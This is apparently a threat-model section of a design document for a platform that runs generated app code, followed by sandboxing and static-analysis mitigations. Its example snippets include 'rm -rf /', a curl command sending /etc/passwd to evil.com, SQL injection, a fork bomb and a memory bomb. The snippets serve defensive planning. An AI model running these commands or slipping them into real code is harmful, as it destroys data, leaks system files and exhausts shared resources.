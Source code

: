 **Specific Threats:**

**Code Injection Attacks:**
```python
# Malicious app code could attempt:
import os
os.system("rm -rf /")  # Delete server files

import subprocess
subprocess.run(["curl", "evil.com", "-d", open("/etc/passwd").read()])  # Exfiltrate data

# SQL injection through generated queries
ctx.storage.raw_query(f"SELECT * FROM users WHERE id = {user_input}")
```

**Resource Exhaustion:**
```python
# Infinite loop to consume CPU
while True:
    pass

# Memory bomb
big_list = [0] * 10**10

# Fork bomb
import multiprocessing
while True:
    multiprocessing.Process(target=lambda: None).start()
```

**Data Access Violations:**
```python
# Attempting to access other users' data
import psycopg2
conn = psycopg2.connect("dbname=platform")
cur = conn.cursor()
cur.execute("SELECT * FROM users")  # Bypass platform isolation
```

**Mitigation Strategies (Complex & Expensive):**

1. **Containerized Sandboxing** (Docker/gVisor):
   - Run each app in isolated container with strict resource limits
   - Network isolation (whitelist only approved external APIs)
   - Read-only filesystem with limited write access
   - User namespace remapping
   - **Challenge**: Container overhead, orchestration complexity

2. **WebAssembly Runtime** (Better approach):
   - Compile Python to WASM, run in secure sandbox
   - Fine-grained capability-based security
   - Deterministic execution
   - **Challenge**: Not all Python libraries work, performance overhead

3. **Static Analysis & Code Review**:
   - Scan all AI-generated code before execution
   - Detect dangerous imports (os, subprocess, socket, etc.)
   - AST parsing to identify malicious patterns
   - **Challenge**: Sophisticated attacks can bypass static analysis
